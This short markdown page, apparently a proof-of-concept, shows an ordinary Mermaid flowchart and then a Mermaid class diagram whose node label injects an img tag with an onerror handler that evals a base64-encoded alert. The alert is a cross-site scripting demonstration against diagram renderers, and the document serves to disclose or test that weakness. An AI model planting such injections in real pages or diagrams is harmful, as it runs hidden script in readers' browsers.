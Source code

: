 Example Mermaid:

```mermaid
graph TD;
    A-->B;
    A-->C;
    B-->D;
    C-->D;
```


XSS: 
```mermaid
classDiagram
x <|-- `<img src onerror=eval(atob("YWxlcnQoJ1hTUyBhdCAnK2xvY2F0aW9uKQ"))>`
```




